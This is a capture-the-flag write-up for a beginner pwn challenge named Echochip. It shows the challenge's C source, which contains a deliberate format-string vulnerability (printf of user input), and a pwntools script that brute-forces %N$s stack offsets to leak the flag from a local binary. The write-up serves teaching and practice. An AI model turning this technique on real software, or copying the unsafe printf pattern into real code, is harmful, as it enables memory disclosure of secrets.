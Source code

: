 # Echochip

## Description

```
Soundboards are so 2076, get the new Kiroshi Echochip to add a cool echo, that will help establish your authority.
```

## Categories

- `pwn`

## Provided Files

- `Echochip.zip`

## Solve Process

While I did try to overthink this at first, I should have known that a beginner challenge couldn't be so complex after all. And it turns out it wasn't.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MIN(x, y) (x < y ? x : y)
char flag[0x100] = "dach2025{NOT_THE_FLAG}";

void setup(void) {
  char *flag_env = getenv("FLAG");
  if (flag_env == NULL)
    return;

  strncpy(flag, flag_env, sizeof(flag) - 1);
}

int main(int argc, char *argv[]) {
  char echo[0x200] = {0};
  char input[0x100] = {0};
  char *input_start, *echo_start;
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setup();
  printf("Please input the message to echo: \n");
  fgets(input, sizeof(input), stdin);

  input_start = input;
  echo_start = echo;
  for (int i = 0; i < sizeof(input) && input[i] != 0; ++i) {
    if (input[i] == ' ' || input[i] == '\n') {
      int echo_len = MIN(3, &input[i] - input_start);
      memcpy(echo_start, input_start, &input[i] - input_start);
      echo_start += &input[i] - input_start;
      memcpy(echo_start, &input[i - echo_len], echo_len + 1);
      echo_start += echo_len + 1;
      input_start = &input[i + 1];
    }
  }

  printf(echo);
}
```

Although the algorithm for performing an "echo" might seem confusing at first, the important thing to note is the final `printf()` statement, which is passed the value of the `echo` variable directly without format specifiers. My editor [Zed]() even correctly reports this as an inline hint using `clang`:

> "clang: Format string is not a string literal (potentially insecure) (fix available)"

This should be a pretty simple to exploit printf format vulnerability, which allows us to leak values of the stack. Since the location is not known, we can try out a few different offsets using the format specifier `%x$s`, where `x` represents the offset and `%s` to output it in string format.

We can then brute-force our way to the flag using a simple solver script.

```py
from pwn import ELF, context

context.log_level = "critical"

elf = ELF("./Echochip")

for i in range(1,256):
    p = elf.process(env={"FLAG": "dach2025{test_flag}"})
    payload = b"".join(
        [
            b"%" + str(i).encode() + b"$s",
        ]
    )
    p.sendline(payload)
    output = p.recvall()
    if "dach" in output.decode("utf-8", errors="ignore"):
        print(payload)
        print(output.decode("utf-8", errors="ignore"))
        break
```

Don't overthink, just do, another flag.
